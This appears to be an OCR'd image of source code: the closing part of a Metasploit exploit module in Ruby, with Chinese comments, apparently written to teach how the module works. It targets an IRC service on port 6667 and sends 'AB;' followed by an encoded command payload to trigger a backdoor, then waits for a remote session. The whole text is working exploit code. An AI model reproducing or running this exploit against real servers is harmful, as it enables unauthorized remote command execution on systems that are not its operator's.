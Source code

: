 ```
        ],
      'Platform'       => ['unix'],
      'Arch'           => ARCH_CMD,
      'Privileged'     => false,
      'Payload'        =>
        {
          'Space'       => 1024,
          'DisableNops' => true,
          'Compat'      =>
            {
              'PayloadType' => 'cmd',
              'RequiredCmd' => 'generic perl ruby telnet',
            }
        },
      'Targets'        =>
        [
          [ 'Automatic Target', { }]
        ],
      'DefaultTarget' => 0,
      'DisclosureDate' => 'Jun 12 2010'))

    # 默认的配置参数，攻击目标端口号为6667
    register_options(
      [
        Opt::RPORT(6667)
      ], self.class)
  end

  # 攻击过程函数
  def exploit
    
    # 连接远程服务器的端口，使用 TCP 方式
    connect

    # 打印连接信息
    print_status("Connected to #{rhost}:#{rport}...")
    banner = sock.get_once(-1, 30)
    banner.to_s.split("\n").each do |line|
      print_line("    #{line}")
    end

    # 发送激活后门程序的命令，使用 sock.put 发送内容
    print_status("Sending backdoor command...")
    sock.put("AB;" + payload.encoded + "\n")

    # 等待服务器端的回复，如果会话被创建则退出，否则循环等待直到设定的超时时间到则退出
    1.upto(120) do
      break if session_created?
      select(nil, nil, nil, 0.25)
      handler()
    end
    disconnect
  end
end
```

